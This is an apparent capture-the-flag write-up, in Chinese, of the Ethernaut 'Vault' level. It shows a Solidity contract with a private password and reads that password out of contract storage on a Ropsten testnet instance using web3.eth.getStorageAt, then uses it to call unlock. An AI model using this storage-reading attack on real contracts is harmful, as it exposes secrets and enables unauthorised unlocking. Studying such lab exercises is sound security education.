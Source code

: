 ```yaml
---
layout: post
title: Vault
---
```


# Vault
合约上任何数据都是公开的，即使是标记为private的变量
```solidity
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### 代码分析
需要调用合约的unlock(bytes32)方法来解锁合约，为此，必须要知道password。通过合约可以看出password在合约中是
一个private的storage变量，可以通过web3.eth.getStorageAt(address, index, callback)方法来获取到变量的具体值。

现以本人之前的instance为例：  
instance地址：0x9a9076bfdd4ed64598b3da08151010ae9f52d7fe
```js
var index = 0;
web3.eth.getStorageAt("0x9a9076bfdd4ed64598b3da08151010ae9f52d7fe", index, function(err, res){
    console.log(res);
})
```
index=0 : 0x0000000000000000000000000000000000000000000000000000000000000000  
index=1 : 0x412076657279207374726f6e67207365637265742070617373776f7264203a29  
其中index=1时，其值即为password。（注意web3的http地址使用ropsten测试网络rpc端口，可以在[infura](https://infura.io/)免费申请）

### 攻击方法
1. 调用合约unlock(password), password可以通过上述方法获得